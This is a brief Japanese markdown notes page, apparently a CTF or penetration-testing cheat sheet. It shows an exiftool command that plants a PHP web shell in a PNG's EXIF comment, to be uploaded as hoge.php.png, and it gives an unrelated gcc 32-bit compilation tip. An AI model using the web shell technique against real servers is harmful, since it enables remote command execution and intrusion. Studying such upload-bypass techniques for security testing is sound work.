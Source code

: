 # Other technic

## exif情報
exifに埋め込む

```
$ exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' hoge.png
```

これでhoge.php.pngとしてupload

## クロスコンパイル

```
gcc -m32 prog.c
```

[64bit Linuxで32bit ELFをコンパイル](https://qiita.com/mas9612/items/d680a5b4307bafd2d3a0)
